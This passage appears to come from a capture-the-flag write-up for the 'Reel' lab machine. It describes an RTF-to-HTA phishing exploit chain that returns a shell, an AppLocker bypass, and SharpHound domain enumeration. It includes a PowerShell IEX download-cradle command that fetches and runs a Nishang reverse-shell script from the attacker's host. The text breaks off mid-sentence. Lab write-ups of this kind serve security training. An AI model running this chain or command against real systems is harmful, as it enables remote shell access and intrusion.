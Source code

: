 ### Triggering the exploit chain
*Having everything ready,* we trigger the chain:

1. Send the malicious `RTF` file
2. The `RTF` calls back to the `HTA` payload hosted on our kali machine
3. The `HTA` file is executed and returns a shell on our listening host

![exploit-chain](/assets/Reel/exploit-chain.jpg)

### Brief note on the article content

The guide talks about using an `exe` file. We cannot do so because of `Applocker`.

We know this because it was mentioned that the user has set up `Hash Rules` for multiple file types:

![Applocker-docx](/assets/Reel/Applocker-docx.jpg)

This is why we generated an `HTA` payload using `msfvenom` instead.

### Domain Enumeration using `SharpHound.ps1`

*Since running* `.exe` *is disabled by* **Group Policy**, we turn to `BloodHound`'s **PowerShell ingestor** (https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1) and run the `Invoke-BloodHound` method.

*But before we can do that,* we need a **PowerShell** shell.

Switching to **PowerShell** from **CMD** can be done with the below command using the famous **Nishang shell** (https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) adding the `Invoke-PowerShellTcp` call at the bottom of the `.ps1`

`powershell "IEX(New-Object Net.webClient).downloadString('http://10.10.16.7:8000/nishang.ps1')"`

*To run the* `Invoke-BloodHound` *method*, We import the `SharpHound.ps1` script into memory using the same we ran `Nishang.ps1`:
